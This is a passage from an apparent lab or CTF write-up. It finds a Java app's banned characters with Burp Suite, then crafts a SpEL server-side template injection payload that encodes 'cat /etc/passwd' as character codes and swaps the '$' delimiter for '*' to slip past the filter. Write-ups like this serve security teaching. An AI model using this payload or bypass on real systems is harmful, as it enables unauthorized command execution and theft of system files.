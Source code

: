 -   Once run I go back to burpsuite and click the "filter settings bar"
    -   {{< figure src="/ox-hugo/2025-01-03-171051_.png" >}}
    -   I apply a filter for the word "banned"

-   There are 3 hits:
    -   {{< figure src="/ox-hugo/2025-01-03-171230_.png" >}}
    -   Looking at the contents of the requests the banned chars are `~`, `$` &amp; `_`


## 2. Foothold: {#2-dot-foothold}


### Getting RCE On The Host VIA SSTI: {#getting-rce-on-the-host-via-ssti}


#### Reading /etc/passwd via SSTI: {#reading-etc-passwd-via-ssti}

-   Now that I know the banned chars on the host I can craft a payload to take advantage of the SSTI vulnerability.
    -   Looking at the [Payload All The Things java section](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Java.md#spel---basic-injection) there is this command for reading `/etc/passwd`:
        ```shell
        ${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
        ```

        -   It begins with a `$` which is a banned character, but looking at the page I can see the following line.

            > Multiple variable expressions can be used, if ${&#x2026;} doesn't work try #{&#x2026;}, \*{&#x2026;}, @{&#x2026;} or ~{&#x2026;}.

            -   Meaning if I can't use `${[Command]}` we can try `*{[Command]}`, `#{[Command]}`, `@{[Command]}`

-   I modify the command to be:
    ```shell
    *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
    ```
